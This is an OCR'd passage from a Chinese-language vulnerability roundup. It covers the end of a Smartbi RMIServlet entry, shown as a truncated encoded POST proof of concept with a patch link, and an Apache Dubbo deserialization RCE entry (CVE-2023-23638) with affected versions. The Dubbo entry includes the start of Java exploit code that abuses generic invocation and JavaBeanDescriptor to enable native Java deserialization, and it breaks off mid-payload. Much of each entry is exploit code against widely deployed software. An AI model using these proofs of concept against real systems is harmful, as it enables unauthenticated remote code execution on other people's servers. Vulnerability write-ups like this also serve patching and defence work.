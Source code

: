  **利用方法：**  
poc

    
    
    POST /smartbi/vision/RMIServlet?windowUnloading=&%7a%44%70%34%57%70%34%67%52%69%70%2b%69%49%70%69%47%5a%70%34%44%52%77%36%2b%2f%4a%  
    

 **修复建议**  
目前厂商已发布升级补丁以修复漏洞，补丁获取链接：  
https://www.smartbi.com.cn/patchinfo

# 10、 **Apache Dubbo 反序列化远程代码执行漏洞**

由于 Dubbo 泛型调用中存在反序列化漏洞，未经身份验证的攻击者可以通过构造特殊的请求利用此漏洞，造成远程代码执行，从而获取远程服务器的权限。  
 **漏洞标签：** 服务器权限相关、利用链成熟  
 **漏洞编号：** CVE-2023-23638  
 **漏洞类型：** RCE  
 **受影响版本：**

  1. 2.7.0 <= Apache Dubbo <= 2.7.21
  2. 3.0.0 <= Apache Dubbo <= 3.0.13
  3. 1.0 <= Apache Dubbo <= 3.1.5

 **利用方法：**  
poc

    
    
    public class GenericCallConsumer {  
      
        private static GenericService genericService;  
      
        public static void main(String[] args) throws Exception {  
            invokeSayHello1();  
            invokeSayHello2();  
        }  
        public static void setGenericService(boolean haveNJ){  
            ApplicationConfig applicationConfig = new ApplicationConfig();  
            applicationConfig.setName("generic-call-consumer");  
            RegistryConfig registryConfig = new RegistryConfig();  
            registryConfig.setAddress("zookeeper://127.0.0.1:2181");  
            ReferenceConfig<GenericService> referenceConfig = new ReferenceConfig<>();  
            referenceConfig.setInterface("org.apache.dubbo.samples.generic.call.api.HelloService");  
            applicationConfig.setRegistry(registryConfig);  
            referenceConfig.setApplication(applicationConfig);  
            referenceConfig.setGeneric(true);  
            referenceConfig.setAsync(true);  
            referenceConfig.setTimeout(7000);  
            if(haveNJ){  
                //dubbo 3.x 下面配置生效  
                referenceConfig.setGeneric("nativejava");  
      
            }  
            genericService = referenceConfig.get();  
        }  
    /*    //payload1  
        public static void invokeSayHello1() throws Exception {  
            setGenericService(false);  
            RpcContext.getContext().setAttachment("generic", "bean");  
            Properties properties = new Properties();  
            properties.setProperty("dubbo.security.serialize.generic.native-java-enable", String.valueOf(true));  
            JavaBeanDescriptor javaBeanDescriptor = new JavaBeanDescriptor();  
            javaBeanDescriptor.setClassName("org.apache.dubbo.common.utils.ConfigUtils");  
            javaBeanDescriptor.setProperty("properties",properties);  
            setFieldValue(javaBeanDescriptor,"type",7);  
      